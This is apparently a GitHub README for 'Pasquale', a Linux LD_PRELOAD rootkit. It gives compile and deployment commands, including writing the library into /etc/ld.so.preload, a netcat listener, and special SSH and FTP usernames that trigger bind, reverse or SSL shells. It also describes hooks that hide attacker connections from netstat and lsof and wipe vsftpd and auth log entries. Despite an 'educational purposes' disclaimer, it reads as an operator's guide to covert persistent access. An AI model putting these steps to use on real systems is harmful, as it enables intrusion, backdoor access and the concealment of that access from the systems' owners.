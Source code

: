 ```yaml
---

# Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates several concepts spanning C programming, socket programming, openSSL, system calls, and various elements related to Linux. The rootkit targets `syslog` and `vsftpd`, triggering one of three possible backdoors. Any network connections made by the attacker are hidden from `netstat` and `lsof`. The rootkit also hides the attacker from logs that usually monitor SSH and FTP connections. 

## Features

- **Backdoor Access**: Provides two types of backdoors: bind shell, reverse shell, and SSL-encrypted shell, which can be triggered through both SSH and FTP.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and `auth.log`.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. 

### Supported Distributions

Pasquale is supported by Debian-based systems, as well as CentOS. 

### Compilation

Compile the rootkit as a shared library on the target system:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

This rootkit would be installed on a Linux server where an attacker would have root access. The steps below assume you have root access on the target system.

1. **Compile the Library on Target**: Follow the compilation step directly on the target system to create `lib.pack.so.6`.

2. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/path/to/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

Alternatively, these backdoors can also be triggered via FTP with the same usernames:

```bash
ftp target
# login with username BIND_USER, REVERSE_USER, or OPENSSL_USER
```

## Functionality Details

### System Call Hooking

- **write Hook**: Intercepts `write` calls to check for specific usernames. Depending on the username, it triggers a bind shell, reverse shell, or SSL-encrypted shell. The ssh and ftp processes both make write calls when a username is submitted. 
- **fopen Hook**: Intercepts `fopen` calls to hide entries from `/var/log/vsftpd.log` and certain network connections from `netstat` and `lsof`.
- **readdir Hook**: Intercepts directory reads to hide the rootkit's presence, including the `ls` command.

### Abuse of syslog and vsftpd

- **Syslog**: The rootkit hooks the `write` syscall to detect specific usernames logged by `syslog`. When detected, it triggers the appropriate backdoor and writes to `/dev/null`, ensuring no logs containing the usernames are written.
- **vsftpd**: The `fopen` hook redirects writes to `/var/log/vsftpd.log` to `/dev/null`, ensuring the log file remains empty.

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.

## License

This project is licensed under the MIT License.

---
```

